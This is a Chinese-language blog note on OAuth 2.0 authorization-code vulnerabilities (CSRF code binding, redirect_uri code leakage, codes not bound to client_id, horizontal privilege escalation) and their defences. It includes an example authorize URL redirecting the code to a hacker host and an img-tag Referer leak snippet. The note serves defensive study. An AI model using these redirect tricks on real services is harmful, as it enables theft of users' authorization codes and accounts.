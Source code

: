 ```yaml
---
title: Oauth2.0安全问题
date: 2022-05-13 22:37:12
tags:
---
```


# 前言

开局一张图

![](Oauth2-0安全问题/image_g44-RXo8eP.png)

根据自己对Oauth2.0授权码模式的理解简单画了个图，图中包含了Oauth2.0授权码模式的流程和oauth的几个常见的特性漏洞。网上oauth的图很多很多，但是总感觉别人画的始终是别人的理解，不根据自己的理解画一遍都不知道自己哪里不会（菜鸡的感慨\~）

接下来挨个简介下标红的三种问题，下面的问题描述都较为简单，主要是作为自己的笔记记录，不做教程性的介绍，若想要看详细的原理介绍，推荐[参考链接](#参考链接)的几个好文

# 1.通过CSRF将攻击者code绑定受害者token

一句话描述：攻击者通过CSRF漏洞，使已登录的用户把攻击者的CODE拿去授权服务器获取accces\_token令牌，攻击者就可以通过accces\_token令牌访问被绑定用户的资源服务器

![](Oauth2-0安全问题/1652280594235-fb7ff3ed-7d20-41fd-b8c0-4fea1e762a80.png)

防御方法：**在请求授权码时，增加随机state参数（通常是6为字母加数字），在返回授权码的回调接口中验证state参数是否和发送的相同**，这样可以确保授权码和授权请求是由同一个用户发起的

# 2.URL重定向导致code泄露

这个漏洞是oauth比较常见且较容易理解的，若授权服务器未校验重定向url或校验不严格，攻击者可构造携带恶意的重定向url给用户授权，例如

```http
https://xxx.com/oauth/authorize?response_type=code&client_id=CLIENT_ID&redirect_uri=http://www.hacker.com
```

用户授权后的code将发送到恶意的`redirect_uri`，攻击者即可获得授权码code。

还有一种情况是若授权服务器严格校验`redirect_uri`为白名单域名，则可以结合白名单域名下可控的静态页面或XSS利用，将`redirect_uri`设置为白名单域名下静态页面链接或XSS的链接，并在并在链接页面下嵌入类似`<img src ="https://clientA.com/catch">`发起跨域请求的代码，攻击者在`clientA.com`收到的请求Referer头中即可查看到code，攻击步骤如下

![](Oauth2-0安全问题/image_nFhw0WGaWy.png)

并不是所有请求都携带Referer头，利用Referer头请求一般有如下规则

![](Oauth2-0安全问题/image_U2uitWmtbD.png)

# 3.code未绑定clent\_id导致一code多客户端使用

假设攻击者想要登录“极客时间”的软件B上的用户G，他可在授权服务器注册一个软件A，获得合法的 `app_id` 和 `app_secret`，当用户G对软件B进行授权产生了一个授权码 codeB，**如果攻击者获取到了这个codeB，且授权服务器未绑定code与客户端ID时**，攻击者就能通过codeB在软件A上授权，获取到用户G的access\_token，从而获取用户G的数据

这一问题通常建立在授权码code失窃的场景下，也就是可以通过上面重定向的漏洞获取code

![](Oauth2-0安全问题/image_7IKdMk8Vab.png)

怎么防御呢？

*   授权码需要绑定客户端ID，并在获取access\_token时校验授权码是否为绑定的客户端ID；

*   授权码 code一次失效，code使用过一次之后，授权服务需要删除这个 code；

# 4.水平越权

最后这个问题算是资源服务器的问题，没有在开局的图中体现出来，开局的图主要说明的是客户端和授权服务器的流程，所以这个放最后讲下，先看下图

![](Oauth2-0安全问题/image_oHtFLdiLob.png)

小兔打单软件是授权服务器，可以给多个商家授权，商家就属于客户端，授权服务器生成的access\_token返回到客户端的tokenCallback处理（开局图流程的最下方），这里将access_token转化为包括商家ID的用户数据，，假设受保护资源服务有一个通过订单IP查询订单详情的API，若API没有对订单 ID和access_token解出来的商家 ID  做归属判断，那么商家A就能查看到商家B的订单数据

防御方法：资源服务API需要对API操作的数据与access\_token解析的权限内容做归属判断

# 参考链接

[https://zq99299.github.io/note-book/oath2/02/02.html](https://zq99299.github.io/note-book/oath2/02/02.html "https://zq99299.github.io/note-book/oath2/02/02.html")

[https://blog.51cto.com/u\_13626762/3113777](https://blog.51cto.com/u_13626762/3113777 "https://blog.51cto.com/u_13626762/3113777")

[https://www.cnblogs.com/hellowhy/p/15533625.html](
